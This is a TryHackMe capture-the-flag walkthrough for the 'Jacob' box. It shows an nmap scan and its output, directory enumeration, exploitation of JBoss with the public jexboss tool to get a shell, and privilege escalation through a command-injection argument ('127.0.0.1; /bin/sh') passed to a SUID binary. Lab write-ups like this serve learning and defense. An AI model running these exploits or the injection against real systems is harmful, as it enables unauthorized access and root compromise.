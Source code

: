 In this walkthrough, we'll go over a challenge (intermediate) level box called ***Jacob*** on [TryHackMe](https://tryhackme.com/room/jacobtheboss) 

![Jacob](jacob.png)

Let's start the scanning process with nmap. The IP address would be different when you deploy it:
```bash
nmap -sTV -n -sC -T4 -p- 10.10.99.57 --open
```
We see that a bunch of ports are open:
```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-22 19:44 EDT
Nmap scan report for jacobtheboss.box (10.10.99.57)
Host is up (0.21s latency).
Not shown: 65515 closed ports
PORT      STATE SERVICE      VERSION
22/tcp    open  ssh          OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 82:ca:13:6e:d9:63:c0:5f:4a:23:a5:a5:a5:10:3c:7f (RSA)
|   256 a4:6e:d2:5d:0d:36:2e:73:2f:1d:52:9c:e5:8a:7b:04 (ECDSA)
|_  256 6f:54:a6:5e:ba:5b:ad:cc:87:ee:d3:a8:d5:e0:aa:2a (ED25519)
80/tcp    open  http         Apache httpd 2.4.6 ((CentOS) PHP/7.3.20)
|_http-server-header: Apache/2.4.6 (CentOS) PHP/7.3.20
|_http-title: My first blog
111/tcp   open  rpcbind      2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|_  100000  3,4          111/udp6  rpcbind
1090/tcp  open  java-rmi     Java RMI
|_rmi-dumpregistry: ERROR: Script execution failed (use -d to debug)
1098/tcp  open  java-rmi     Java RMI
1099/tcp  open  java-object  Java Object Serialization
| fingerprint-strings: 
|   NULL: 
|     java.rmi.MarshalledObject|
|     hash[
|     locBytest
|     objBytesq
|     http://jacobtheboss.box:8083/q
|     org.jnp.server.NamingServer_Stub
|     java.rmi.server.RemoteStub
|     java.rmi.server.RemoteObject
|     xpw;
|     UnicastRef2
|_    jacobtheboss.box
3306/tcp  open  mysql        MariaDB (unauthorized)
3873/tcp  open  java-object  Java Object Serialization
4444/tcp  open  java-rmi     Java RMI
4445/tcp  open  java-object  Java Object Serialization
4446/tcp  open  java-object  Java Object Serialization
4457/tcp  open  tandem-print Sharp printer tandem printing
4712/tcp  open  msdtc        Microsoft Distributed Transaction Coordinator (error)
4713/tcp  open  pulseaudio?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NULL, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns: 
|_    8695
8009/tcp  open  ajp13        Apache Jserv (Protocol v1.3)
| ajp-methods: 
|   Supported methods: GET HEAD POST PUT DELETE TRACE OPTIONS
|   Potentially risky methods: PUT DELETE TRACE
|_  See https://nmap.org/nsedoc/scripts/ajp-methods.html
8080/tcp  open  http         Apache Tomcat/Coyote JSP engine 1.1
| http-methods: 
|_  Potentially risky methods: PUT DELETE TRACE
|_http-server-header: Apache-Coyote/1.1
|_http-title: Welcome to JBoss&trade;
8083/tcp  open  http         JBoss service httpd
|_http-title: Site doesn't have a title (text/html).
29981/tcp open  unknown
34453/tcp open  unknown
34759/tcp open  java-rmi     Java RMI
5 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port1099-TCP:V=7.91%I=7%D=6/22%Time=60D280B9%P=x86_64-pc-linux-gnu%r(NU
SF:LL,16F,"\xac\xed\0\x05sr\0\x19java\.rmi\.MarshalledObject\|\xbd\x1e\x97
SF:\xedc\xfc>\x02\0\x03I\0\x04hash\[\0\x08locBytest\0\x02\[B\[\0\x08objByt
SF:esq\0~\0\x01xp\x8d\xf3\r\xfaur\0\x02\[B\xac\xf3\x17\xf8\x06\x08T\xe0\x0
SF:2\0\0xp\0\0\0\.\xac\xed\0\x05t\0\x1dhttp://jacobtheboss\.box:8083/q\0~\
SF:0\0q\0~\0\0uq\0~\0\x03\0\0\0\xc7\xac\xed\0\x05sr\0\x20org\.jnp\.server\
SF:.NamingServer_Stub\0\0\0\0\0\0\0\x02\x02\0\0xr\0\x1ajava\.rmi\.server\.
SF:RemoteStub\xe9\xfe\xdc\xc9\x8b\xe1e\x1a\x02\0\0xr\0\x1cjava\.rmi\.serve
SF:r\.RemoteObject\xd3a\xb4\x91\x0ca3\x1e\x03\0\0xpw;\0\x0bUnicastRef2\0\0
SF:\x10jacobtheboss\.box\0\0\x04J\0\0\0\0\0\0\0\0\xe6jxK\0\0\x01z6\x1b\x12
SF:\x0c\x80\0\0x");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port3873-TCP:V=7.91%I=7%D=6/22%Time=60D280BF%P=x86_64-pc-linux-gnu%r(NU
SF:LL,4,"\xac\xed\0\x05");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port4445-TCP:V=7.91%I=7%D=6/22%Time=60D280BF%P=x86_64-pc-linux-gnu%r(NU
SF:LL,4,"\xac\xed\0\x05");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port4446-TCP:V=7.91%I=7%D=6/22%Time=60D280BF%P=x86_64-pc-linux-gnu%r(NU
SF:LL,4,"\xac\xed\0\x05");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port4713-TCP:V=7.91%I=7%D=6/22%Time=60D280BF%P=x86_64-pc-linux-gnu%r(NU
SF:LL,5,"8695\n")%r(GenericLines,5,"8695\n")%r(GetRequest,5,"8695\n")%r(HT
SF:TPOptions,5,"8695\n")%r(RTSPRequest,5,"8695\n")%r(RPCCheck,5,"8695\n")%
SF:r(DNSVersionBindReqTCP,5,"8695\n")%r(DNSStatusRequestTCP,5,"8695\n")%r(
SF:Help,5,"8695\n")%r(SSLSessionReq,5,"8695\n")%r(TerminalServerCookie,5,"
SF:8695\n")%r(TLSSessionReq,5,"8695\n")%r(Kerberos,5,"8695\n")%r(SMBProgNe
SF:g,5,"8695\n")%r(X11Probe,5,"8695\n")%r(FourOhFourRequest,5,"8695\n")%r(
SF:LPDString,5,"8695\n")%r(LDAPSearchReq,5,"8695\n")%r(LDAPBindReq,5,"8695
SF:\n")%r(SIPOptions,5,"8695\n")%r(LANDesk-RC,5,"8695\n")%r(TerminalServer
SF:,5,"8695\n")%r(NCP,5,"8695\n")%r(NotesRPC,5,"8695\n")%r(JavaRMI,5,"8695
SF:\n")%r(WMSRequest,5,"8695\n")%r(oracle-tns,5,"8695\n")%r(ms-sql-s,5,"86
SF:95\n")%r(afp,5,"8695\n")%r(giop,5,"8695\n");
Service Info: OS: Windows; Device: printer; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 2947.54 seconds
```

![Jacob 80](jacob-index-html-80.png)
![Jacob 8080](jacob-index-html-8080.png)

If we run dirsearch on port 8080, we can see that there is a directory called "web-console" `dirsearch -u http://jacobtheboss.box:8080 -r -f -t 50 -x 302,400,403,500,503 -w /usr/share/wordlists/dirb/big.txt`
![Jacob dirsearch](jacob-dirsearch-8080.png)

After looking at the results, we can visit http://jacobtheboss.box:8080/web-console/ and find the version of JBoss:
![Jacob jboss webconsole](jacob-jboss-webconsole.png)
![Jacob jboss version](jacob-jboss-version.png)

There is an exploit for [JBoss version 5.0 on GitHub](https://github.com/joaomatosf/jexboss)
After running the exploit as follows `python jexboss.py -u http://jacobtheboss.box:8080` we are able to get a shell back:
![Jacob jboss exploit](jacob-jboss-exploit.png)
![Jacob foothold](jacob-initial-foothold.png)

If we run linpeas and we can find the below two important findings:
1 - Binary Process Permissions:

![Jacob linpeas](jacob-linpeas-binary-processes.png)

2 - MySQL root login with no password:

![Jacob mysql](jacob-linpeas-mysql-root-login.png)

3 - SUID:

![Jacob SUID](jacob-linpeas-SUID.png)

Unfortunately, the first two won't lead mus to anywhere and we can inspect the pingsys binary, and strings command reveals that it was setting "UID":

![Jacob strings](jacob-strings-pingsys.png)

Finally, we then run the following command to escalate privileges `/usr/bin/pingsys '127.0.0.1; /bin/sh'` and we are able to get a root shell:

![Jacob root](jacobroot.png)

I hope you enjoyed this walkthrough.

[<= Go Back to TryHackMe Walkthroughs](TryHackMeWalkthroughs.md)

[<= Go Back to Main Menu](index.md)
